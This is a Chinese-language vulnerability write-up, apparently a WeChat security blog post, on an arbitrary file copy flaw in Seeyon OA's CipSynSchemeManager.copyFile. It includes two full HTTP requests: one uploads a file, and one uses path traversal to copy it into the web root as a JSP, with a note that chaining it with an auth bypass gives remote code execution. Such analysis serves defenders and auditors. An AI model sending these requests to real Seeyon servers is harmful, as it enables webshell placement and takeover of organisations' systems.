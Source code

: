 致远OA代码审计系列6-CopyFile文件复制漏洞分析
============================

原创 作者:archive 公号:安全回忆录 发布时间:2023-12-05 0:00 发表于北京

原文地址：[致远OA代码审计系列6-CopyFile文件复制漏洞分析](https://mp.weixin.qq.com/s/-R5TQ5dsg7aYycCoU6ZpJA)

**漏洞描述:**

在CipSynSchemeManager的copyFile方法实现了文件复制的功能, 但是方法没有对source参数和target参数进行检测,, 攻击者可以通过该方法实现任意文件的复制, 配合《致远OA代码审计系列二》文章提到的权限绕过, 可以实现前台RCE。  

[致远OA代码审计系列二](http://mp.weixin.qq.com/s?__biz=MzkyNjM1MDMyMg==&mid=2247483803&idx=1&sn=a66efb07c048a8219ab30811b4275643&chksm=c239ef06f54e6610f36698e54678e2cc4cf5c77e5248dc8933d76d0d779dff47d8e2c233bc53&scene=21#wechat_redirect)  

[致远OA代码审计系列一](http://mp.weixin.qq.com/s?__biz=MzkyNjM1MDMyMg==&mid=2247483794&idx=1&sn=84af07a085a3b67efb46e9b09ea17018&chksm=c239ef0ff54e6619906b8ad3db6c26e1c2517356c80920493898cd472682b8da463bb4922757&scene=21#wechat_redirect)

**适用版本:**

适配版本范围：V5&G6\_V6.1至V8.0SP2全系列版本、V5&G6&N\_V8.1至V8.1SP2全系列版本。

**漏洞分析:**

AjaxController中的ajaxAction方法允许调用beanCacheMap中的类, CipSynSchemeManager也在其中,可以通过ajax.do路由进行方法调用,  copyFile方法中直接将传入的source文件copy到target目标文件中, 且没有对source和target格式,后缀进行任何检测. 攻击者可先上传正常后缀文件, 通过copyFIle二次复制文件为JSP文件, 实现任意文件上传。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtCiaoqyyDiaXPdicIbqYbEODudy2zKfhP95YGdpRCLCzB6tOnsYTACkmmicHMqcreMVIkbJOjCC4mz2Q/640?wx_fmt=png&from=appmsg)

需要注意一点, 这里如果文件已经存在则不会进行复制,所以每次复制target文件名需要不一致。还需要找一个上传的点, 这里采用的是portalCssManager的generateCssFileByCssStr方法。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtCiaoqyyDiaXPdicIbqYbEODugXibPVXPMZeQ77N1sbNt6VDdk9RnfTTA0VpfSpbAaxeLVrLt7bYKqhA/640?wx_fmt=png&from=appmsg)

该方法上传路径为:A8\\base\\resources\\portal\\css\\, 整体利用思路先随便上传一个正常后缀文件, 且知道文件上传的路径和文件名, 再将其复制到WEB路径下。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtCiaoqyyDiaXPdicIbqYbEODu6xMjXLgdEf4NQHSWsnHr3uGRuDVO3L52RSIHa6AUwun2UPbjowyiczg/640?wx_fmt=png&from=appmsg)

上传文件:  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtCiaoqyyDiaXPdicIbqYbEODuhPXLc0DtzuH8HkdmwmCTIQjRUPdMO2OkFwbgAB0dG1sx9icpXicbuTUw/640?wx_fmt=png&from=appmsg)

```http
POST /seeyon/ajax.do?method=ajaxAction&managerName=portalCssManager&rnd=57507 HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 65
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=8D5D325CDA1D0D603098AB990CA04CCE; login_locale=zh_CN
Accept-Encoding: gzip, deflate


arguments=%5B%22aaaaa%22%5D&managerMethod=generateCssFileByCssStr
```

再通过copyFIle复制到ROOT下:  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtCiaoqyyDiaXPdicIbqYbEODuZUW4jQiaFBricnCB9WjJHBsItqqoGIhkoxpibNqBT6a7eaUAxGWUxpXPA/640?wx_fmt=png&from=appmsg)

```http
POST /seeyon/ajax.do;Jsessionid=a?method=ajaxAction&managerName=cipSynSchemeManager&rnd=29981 HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 141
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=8D5D325CDA1D0D603098AB990CA04CCE; login_locale=zh_CN
Accept-Encoding: gzip, deflate


arguments=["../../../../resources/portal/css/4468644017858628175","../../ApacheJetspeed/webapps/ROOT/sectestdssd.jsp"]&managerMethod=copyFile
```

访问文件:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtCiaoqyyDiaXPdicIbqYbEODuKzQicpXTO3b66m4lUjGcAIFhticClyFcs03iaQmPia5QeDtmVMJdjsRY6g/640?wx_fmt=png&from=appmsg)

**总结:**

致远OA上传文件的点很多, 当致远OA权限绕过不可用, 但有系统相关账号的情况可以考虑该漏洞。致远官方于2022年8月发布该漏洞补丁。
